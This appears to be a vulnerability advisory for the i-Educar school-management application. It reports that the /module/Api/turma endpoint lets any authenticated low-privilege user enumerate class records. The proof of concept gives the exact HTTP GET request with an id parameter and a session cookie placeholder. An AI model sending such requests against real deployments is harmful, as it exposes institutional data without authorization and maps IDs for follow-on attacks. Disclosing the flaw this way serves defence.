 Broken Object Level Authorization (BOLA) Broken Object Level Authorization (BOLA) allows enumeration of classes data via /module/Api/turma
### Summary

A **Broken Object Level Authorization (BOLA)** vulnerability was identified in the `turma` API of the **i-Educar** application. This flaw allows a user without proper permissions to query the endpoint and retrieve ** class information**  by manipulating request parameters.

Although this vulnerability does not directly expose individual student data, it still constitutes an **unauthorized disclosure of academic structure information**, which can be leveraged for enumeration or as a stepping stone for further attacks.

---

### Details

**Vulnerable Endpoint:**  
`GET /module/Api/turma`

The application fails to enforce **object-level authorization** when handling this endpoint. As a result, any authenticated user can manipulate the request values to access data that they shouldn't.

**Expected behavior:**

- Only authorized roles (e.g., administrators, coordinators, teachers linked to the class) should be able to access this data.
    
- Unauthorized users should receive **403 Forbidden** or an empty response.
    

**Observed behavior:**

- Any authenticated user (even low-privilege accounts) can access this endpoint and retrieve sensitive information about academic classes.

---
### Proof of Concept (PoC)

1. Authenticate as a non-privileged user.

![[Pasted image 20250821225155.png]]
![[Pasted image 20250821225232.png]]
2. Send the following request:

```
GET /module/Api/turma?&oper=get&resource=turma&id=14 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://localhost/intranet/educar_turma_det.php?cod_turma=14
Cookie: i_educar_session=[low-privileged-session]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

```

![[Pasted image 20250823181900.png]]

3. We could observe that informations about classes were returned.


---

### Impact

- **Information Disclosure:** Even though student data is not included, sensitive details about the institution’s internal structure (classes, courses, schedules) are exposed.
    
- **Reconnaissance Vector:** An attacker could use this endpoint to map out the entire academic structure, identifying valid IDs.
    
- **Chaining attacks:** Combined with other vulnerabilities (e.g., BOLA on enrollment endpoints), this facilitates enumeration and targeted exploitation of student records.
    
- **Compliance Risk:** Exposure of institutional metadata to unauthorized users can still represent a data governance issue.
    

---
